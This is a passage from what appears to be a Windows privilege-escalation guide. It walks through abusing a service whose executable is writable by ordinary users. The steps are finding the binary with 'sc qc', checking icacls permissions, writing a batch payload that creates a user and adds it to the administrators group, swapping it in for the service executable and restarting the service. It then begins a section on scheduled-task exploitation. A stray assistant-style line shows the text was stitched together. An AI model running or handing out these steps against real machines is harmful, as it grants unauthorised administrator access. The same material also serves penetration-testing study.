 1. **Find the Service Path:**
   - Identify the executable path of the target service using the `sc qc` command:
     ```bash
     sc qc <service_name>
     ```
   - Replace `<service_name>` with the actual name of the service. Look for the `BINARY_PATH_NAME` field in the output to find the path of the service's executable.

2. **Check File Permissions:**
   - Use the `icacls` command to verify who has access to modify the service's executable:
     ```bash
     icacls "C:\path\to\service\executable.exe"
     ```
   - Focus on the permission flags:
     - **(F)** – Full control: Allows reading, writing, deleting, and changing permissions.
     - **(M)** – Modify: Allows reading, writing, and deleting files.
   - If non-admin groups like `BUILTIN\Users` or `Everyone` have (F) or (M) permissions, you can replace or modify the service executable.

3. **Create a Payload:**
   - Write a simple script or batch file that performs the desired action (e.g., creating a user). For example:
     ```batch
     net user <username> <password> /add && net localgroup administrators <username> /add
     ```
   - Replace `<username>` and `<password>` with the desired credentials.

4. **Convert Script to Executable (Optional):**
   - Use a tool like **bat2exe** to convert the batch file into an executable, if needed:
     ```bash
     bat2exe file.bat
     ```

5. **Deploy the Payload:**
   - Replace the original service executable with your payload:
     ```bash
     copy /Y Z:\payload.exe "C:\path\to\service\executable.exe"
     ```

6. **Restart the Service:**
   - Restart the service to trigger the execution of the modified executable:
     ```bash
     sc stop <service_name>
     sc start <service_name>
     ```
Here’s the updated version of the tip with the additional information included:

#### g) **Scheduled Task Exploitation**
Identify scheduled tasks running under elevated accounts where you have indirect permission to modify the associated scripts. Follow these steps:

1. **Find Accessible Scheduled Tasks:**
   - Use **Task Scheduler** to identify tasks that you have access to. You can also find tasks that you don’t have access to, providing insight into other potential targets.
   - Explore `C:\Windows\system32`. Some systems that missed updates may still have the `C:\Windows\TasksMigrated` folder, making it readable.
